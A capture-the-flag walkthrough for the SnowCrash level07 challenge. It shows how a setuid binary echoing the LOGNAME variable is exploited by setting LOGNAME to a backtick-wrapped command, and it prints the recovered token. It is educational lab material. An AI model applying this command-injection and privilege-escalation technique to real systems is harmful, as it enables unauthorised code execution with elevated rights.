 # SnowCrash Level07 Guide
This guide will walk you through the process of finding the password for the `flag07` user.

## Procedure:

1. **Examine your environment**
   
`id` : Shows user and group identities that you have. 
```bash
uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level07
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

2. **Analyse level07**

We execute the file level07.
```bash
./level07
```
Returns
```bash
level07
```
The program displays the string "level07".
We are going to look at where the string comes from.
```bash
strings level07 | grep "level07"
```
Returns
```bash
/home/user/level07
level07.c
/home/user/level07/level07.c
level07.c
```
But there is not the file level07.c in the current directory.
We are going to look at where the string comes from, but without the grep filter.
```bash
strings level07
```
Returns
```bash
...
LOGNAME
/bin/echo %s
...
```
The program uses the echo command to display the message.
The message displayed is the value of the LOGNAME environment variable.
We are going to change the value of the LOGNAME environment variable to execute the getflag command instead of echo.

3. **Check and change the LOGNAME environment variable**

We display the value of the LOGNAME environment variable.
```bash
echo $LOGNAME
```
Returns
```bash
level07
```
If we change the value of the LOGNAME environment variable, `./level07` will display the new value.
```bash
export LOGNAME=getflag
./level07
```
Returns
```bash
getflag
```

4. **Get the flag**

With `LOGNAME=getflag`, the shell interprets `getflag` as a string.
For the shell to interpret `getflag` as a command, we need to use the backticks.
```bash
export LOGNAME=\`getflag\`
./level07
```
Returns
```bash
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Congratulations! We have succeeded in obtaining the token!
We now access level 08.
```bash
su level08
```